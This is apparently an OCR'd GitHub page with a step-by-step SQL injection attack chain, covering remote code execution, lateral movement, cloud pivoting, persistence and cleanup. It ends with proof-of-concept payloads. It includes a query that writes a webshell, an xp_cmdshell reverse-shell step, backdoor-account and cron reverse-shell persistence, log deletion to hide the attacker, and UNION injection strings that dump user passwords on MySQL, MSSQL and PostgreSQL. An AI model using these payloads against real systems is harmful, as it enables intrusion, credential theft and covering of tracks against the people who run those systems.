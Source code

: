 [7] Remote Code Execution (RCE)

  └─► Write to file or abuse DB functions

  └─► MySQL: SELECT "" INTO OUTFILE '/var/www/html/shell.php'

  └─► MSSQL: xp_cmdshell 'powershell reverse shell'


[8] Lateral Movement

  └─► Access other services using stolen credentials

  └─► SSH, SMB, admin panels, internal APIs

  └─► Pivot to other DBs or machines


[9] Cloud & Infra Pivoting
  └─► Exfiltrate API keys (AWS, GCP, Azure) or secrets

  └─► SELECT * FROM env WHERE key LIKE '%key%'

  └─► Access cloud storage (S3, buckets, RDS)

  └─► Exploit misconfigured services (Redis, Jenkins, Docker)


[10] Persistence

  └─► Create backdoor accounts

  └─► INSERT INTO users (admin) ...

  └─► Set scheduled jobs or cron tasks

  └─► Inject reverse shell into cron or task scheduler

  └─► Webshell deployment or DB triggers


[11] Cleanup (Optional in red team or stealth testing)

  └─► Remove logs, drop shell, disable accounts

  └─► DELETE FROM logs WHERE user='attacker'

# PoC Payloads: Steps 5–9

## Step 5: Data Exfiltration

MySQL:

`?id=1 UNION SELECT username, password FROM users-- -`

MSSQL:  

`?id=1; SELECT name, pass FROM members--`

PostgreSQL:

`?id=1 UNION SELECT username || ':' || password FROM auth_table--`
